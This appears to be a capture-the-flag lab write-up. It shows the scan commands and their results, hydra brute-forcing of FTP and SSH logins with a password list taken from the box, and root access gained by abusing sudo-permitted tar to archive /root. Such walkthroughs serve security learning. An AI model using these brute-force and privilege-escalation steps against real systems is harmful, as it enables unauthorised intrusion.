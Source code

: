 export ip=10.10.150.0

# tool - nmap
 - `sudo nmap -sS $ip`
   - Open ports 21, 22, 80
 - `nmap -sC -sV -oN nmap.log $ip`
   - 21: vsftpd 3.0.3 - anonymous allowed
   - 80: Apache/2.4.18
   - 22: OpenSSH 7.2p2

# tool - gobuster
 - `gobuster dir -t 100 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt -x php,txt,html -u http://$ip | tee gobuster.log`

# tool - hydra
 - `hydra -L /usr/share/wordlists/rockyou.txt  -P locks.txt ftp://$ip | tee hydra.log`
 - `hydra -l lin -P locks.txt ssh://$ip`

# process
 - considering there is anonymous login allowed in the ftp, tried that and issued `dir` command which listed a couple of files.
 - downloaded both files using `get filename` command
 - got the first answer from tasks.txt file
 - from the task description it was evident that the locks.txt file has the passwords for probably the user lin.
 - so ran hydra for the username from tasks file and passwords file locks.txt for both ftp and ssh. It was ssh and this way got the password
 - logged in using ssh and listed the contents of the home dir. And we got user.txt file.
 - downloaded linpeas, gave executable permissions, transferred it to the target, executed it by specifying the log file.
 - transferred the log file back to the host system by using scp.
 - use more command to go through the linpeas log file so that it can be seen with the formatting in the terminal
 - tried listing the available command as sudo using `sudo -l` and it showed tar is available.
   - Could have used gtfobins to get some one liner to get the root shell using tar but I thought that was unnecessary.
 - used tar to create an archive of the root dir using `sudo tar -cf a.tar /root`
 - downloaded this file using scp to the localhost and extracted it `tar -xf a.tar`
 - this showed a file called root.txt which had the final answer.